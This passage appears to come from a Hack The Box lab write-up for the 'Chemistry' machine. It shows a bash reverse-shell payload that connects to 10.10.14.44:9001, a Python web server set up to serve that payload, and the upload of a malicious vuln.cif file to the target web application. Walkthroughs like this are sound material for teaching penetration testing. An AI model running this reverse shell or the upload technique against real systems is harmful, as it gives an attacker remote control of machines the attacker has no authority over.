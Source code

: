 We also prepared the `payload` which we expected to get accessed and executed by the `web application`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Chemistry/serve]
└─$ cat x 
#!/bin/bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.14.44/9001 0>&1'
```

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Chemistry/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

We uploaded the malicious `vuln.cif` file to the `web application`.

![](images/2024-10-20_11-33_80_vuln_cif.png)

![](images/2024-10-20_11-34_80_vuln_cif_upload_successful.png)
